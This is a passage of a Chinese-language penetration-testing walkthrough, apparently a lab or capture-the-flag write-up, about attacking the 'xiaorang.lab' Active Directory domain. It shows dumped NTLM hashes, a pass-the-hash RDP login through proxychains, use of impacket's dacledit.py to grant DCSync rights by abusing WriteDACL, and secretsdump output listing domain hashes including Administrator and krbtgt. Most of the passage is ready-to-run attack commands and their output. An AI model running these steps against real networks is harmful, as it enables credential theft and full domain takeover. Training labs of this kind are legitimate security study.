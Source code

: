 ```bash
         * Password : 3d 6d 31 ad 7f 1e 6a 92 75 93 d8 9c 28 c2 da f9 7e db d4 cd fc 54 f6 dd 2f 0b a2 1f 4e 72 3d cc 83 4a d9 57 e7 43 b1 db b4 33 0a c8 b2 d8 16 d0 68 8d bd 6a 31 9e b6 c4 65 cd 0d 0d 1a 57 67 05 dc 21 be f8 54 e1 f3 09 32 e0 5f 00 df a3 91 6b 37 37 75 de 02 90 5e 02 68 ce 88 b2 31 0c ab 82 c9 4c 3b 13 db 9c 3f a1 1c 20 45 39 4a 00 f9 53 b0 51 e7 72 4e 92 a1 83 6f 0c fb b9 fd 25 e2 71 e3 e7 83 53 f6 42 af 28 a3 bb 30 a0 71 e6 f0 67 02 d7 33 cf da 94 9c f0 48 0e f2 de 44 a2 39 0f 61 ad 3d 59 b7 29 30 37 39 54 15 cd 93 7f 56 49 3e c7 61 9c 95 ea d5 25 c7 90 d9 0c f5 39 94 0f 1b 22 66 3e e1 75 df 38 aa 84 b6 22 9e 31 f7 70 57 13 9f ef b0 18 5c 9f b8 53 98 20 0c 93 63 dc 6d 84 66 42 17 2e 27 e7 ea 05 ec 5d 99 e9 e7 e6
        ssp :
        credman :
```

这里分别抓出了 XIAORANG-EXC01$的哈希 fd8408d2e99712fd9c0e3f9ff5a4a68a

和 Zhangtong：22c7f81993e96ac83ac2f3f1903de8b4

到这里，我们可以用 XIAORANG-EXC01 哈希登录一下

```bash
proxychains xfreerdp /pth:fd8408d2e99712fd9c0e3f9ff5a4a68a /u:XIAORANG-EXC01$ /v:172.22.3.9:3389
```

这样就可以登录上 XIAORANG-EXC01，然后用 bloodhound 分析一下发现 EXC01 机器账户默认对域内成员具有 writeDacl 权限，这个权限允许身份修改指定对象 ACL，所以可以给 Zhangtong 修改个 DCSync，然后就可以抓域控哈希了。（这里查了一下资料，DCSync，DCSync 是域渗透中经常会用到的技术，其被整合在了 Mimikatz 中。在 DCSync 功能出现之前，要想获得域用户的哈希，需要登录域控制器，在域控制器上执行代码才能获得域用户的哈希。所以当我们看到 EXC01 机器账户默认对域内成员具有 writeDacl 权限，所以 EXC01 机器就可以修改其他账户的 ACL，从而使 Zhangtong 获得 DCSync，从而就可以使用 Zhangtong，来抓域控哈希了）

[dacledit.py](https://github.com/ThePorgs/impacket)

添加 DCSync

```bash
proxychains python3 dacledit.py xiaorang.lab/XIAORANG-EXC01\$ -hashes :4de6c4eeee1f315e1241c4a813e2b3b5 -action write -rights DCSync -principal Zhangtong -target-dn "DC=xiaorang,DC=lab" -dc-ip 172.22.3.2
```

抓哈希

```bash
proxychains python3 secretsdump.py xiaorang.lab/Zhangtong@172.22.3.2 -hashes :22c7f81993e96ac83ac2f3f1903de8b4 -just-dc-ntlm
```

```bash
[proxychains] Strict chain  ...  1.15.75.117:1080  ...  172.22.3.2:445  ...  OK
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[proxychains] Strict chain  ...  1.15.75.117:1080  ...  172.22.3.2:135  ...  OK
[proxychains] Strict chain  ...  1.15.75.117:1080  ...  172.22.3.2:49667  ...  OK
xiaorang.lab\Administrator:500:aad3b435b51404eeaad3b435b51404ee:7acbc09a6c0efd81bfa7d5a1d4238beb:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b8fa79a52e918cb0cbcd1c0ede492647:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\$431000-7AGO1IPPEUGJ:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\SM_46bc0bcd781047eba:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\SM_2554056e362e45ba9:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\SM_ae8e35b0ca3e41718:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\SM_341e33a8ba4d46c19:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\SM_3d52038e2394452f8:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\SM_2ddd7a0d26c84e7cb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
